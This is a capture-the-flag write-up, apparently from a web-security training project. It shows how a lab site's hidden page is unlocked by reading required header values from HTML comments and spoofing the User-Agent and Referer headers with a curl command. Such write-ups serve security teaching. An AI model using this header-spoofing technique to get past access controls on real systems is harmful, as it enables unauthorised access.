 # 🌐🔧 HTTP Header Manipulation (Client-Side Access Control Bypass)

> **OWASP Category:** A01:2021 – Broken Access Control  
> **Severity:** 🟡 Medium-High  
> **Difficulty:** 🟢 Low

The website implements a flawed access control mechanism that relies on client-controllable HTTP headers (`User-Agent` and `Referer`) to restrict access to sensitive content. By examining HTML comments, attackers can discover the required header values and easily bypass these restrictions using tools like curl or browser developer tools, demonstrating why server-side access controls should never depend on client-provided information.

🎯 **Header Games:** When access control trusts what clients tell you - spoofing becomes trivial!

---

## 🎯 Exploit Technique

### 🔧 Attack Evolution

#### 🥇 **Step 1 - Hidden Page Discovery**
```bash
# Target URL Discovery
URL: http://192.168.64.2/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f
Method: Likely discovered through directory enumeration, robots.txt, or source code analysis
Hash Pattern: SHA-256 format suggests obfuscated page identifier
```

#### 🥈 **Step 2 - HTML Source Code Analysis**
```html
<!-- HTML Comment Analysis -->
<!-- Initial page access attempt shows restricted content -->

<!-- Comment 1: Referer Requirement -->
<!--
You must come from : "https://www.nsa.gov/".
-->

<!-- Comment 2: User-Agent Requirement -->
<!--Let's use this browser : "ft_bornToSec". It will help you a lot. -->

<!-- Key Discovery: Dual header validation required -->
Required Headers:
- Referer: https://www.nsa.gov/
- User-Agent: ft_bornToSec
```

#### 🥉 **Step 3 - HTTP Header Spoofing**
```bash
# Vulnerability Exploitation via curl
# Method: Craft HTTP request with required headers

curl -H "User-Agent: ft_bornToSec" \
     -H "Referer: https://www.nsa.gov/" \
     "http://192.168.64.2/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" \
     | grep flag

# Alternative browser-based approach
# 1. Open browser developer tools
# 2. Navigate to Network tab
# 3. Modify request headers before sending
```